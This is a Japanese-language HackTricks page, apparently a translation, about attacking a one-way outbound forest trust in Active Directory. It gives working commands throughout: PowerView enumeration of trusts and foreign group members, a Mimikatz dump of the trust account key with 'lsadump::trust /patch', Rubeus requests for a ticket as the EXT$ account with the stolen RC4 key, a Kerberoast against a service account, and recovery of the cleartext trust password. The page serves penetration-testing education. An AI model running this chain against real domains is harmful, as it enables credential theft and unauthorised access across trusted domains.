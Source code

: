 # 外部フォレストドメイン - 一方向（アウトバウンド）

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

このシナリオでは、**あなたのドメイン**が**異なるドメイン**のプリンシパルに**いくつかの権限**を**信頼**しています。

## 列挙

### アウトバウンドトラスト
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

セキュリティの脆弱性は、ドメイン **A** とドメイン **B** の間に信頼関係が確立されるときに存在します。ここで、ドメイン **B** はドメイン **A** に対して信頼を拡張します。この設定では、ドメイン **B** のためにドメイン **A** に特別なアカウントが作成され、これは2つのドメイン間の認証プロセスにおいて重要な役割を果たします。このアカウントはドメイン **B** に関連付けられており、ドメイン間でサービスにアクセスするためのチケットを暗号化するために使用されます。

ここで理解すべき重要な点は、この特別なアカウントのパスワードとハッシュが、コマンドラインツールを使用してドメイン **A** のドメインコントローラーから抽出できるということです。このアクションを実行するためのコマンドは次のとおりです:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
この抽出は、名前の後に **$** が付いたアカウントがアクティブであり、ドメイン **A** の「Domain Users」グループに属しているため、これに関連する権限を継承しているため可能です。これにより、個人はこのアカウントの資格情報を使用してドメイン **A** に対して認証することができます。

**警告:** この状況を利用して、ユーザーとしてドメイン **A** に足場を築くことは可能ですが、権限は限られています。しかし、このアクセスはドメイン **A** での列挙を行うには十分です。

`ext.local` が信頼するドメインで、`root.local` が信頼されたドメインであるシナリオでは、`root.local` 内に `EXT$` という名前のユーザーアカウントが作成されます。特定のツールを使用することで、Kerberos 信頼キーをダンプし、`root.local` 内の `EXT$` の資格情報を明らかにすることが可能です。これを達成するためのコマンドは次のとおりです:
```bash
lsadump::trust /patch
```
以下に従って、抽出したRC4キーを使用して、別のツールコマンドを使用して`root.local`内の`root.local\EXT$`として認証することができます：
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
この認証ステップは、`root.local` 内のサービスを列挙し、さらには悪用する可能性を開きます。たとえば、次のコマンドを使用してサービスアカウントの資格情報を抽出するために Kerberoast 攻撃を実行することができます：
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### 明文の信頼パスワードの収集

前のフローでは、**明文パスワード**の代わりに信頼ハッシュが使用されました（これは**mimikatzによってダンプされました**）。

明文パスワードは、mimikatzの\[ CLEAR ]出力を16進数から変換し、ヌルバイト‘\x00’を削除することで取得できます：

![](<../../.gitbook/assets/image (938).png>)

信頼関係を作成する際に、ユーザーが信頼のためにパスワードを入力する必要がある場合があります。このデモでは、キーは元の信頼パスワードであり、したがって人間が読み取れるものです。キーがサイクルする（30日ごと）と、明文は人間が読み取れなくなりますが、技術的には依然として使用可能です。

明文パスワードは、信頼アカウントとして通常の認証を行うために使用でき、信頼アカウントのKerberos秘密鍵を使用してTGTを要求する代替手段となります。ここでは、ext.localからroot.localに対してDomain Adminsのメンバーをクエリしています：

![](<../../.gitbook/assets/image (792).png>)

## 参考文献

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
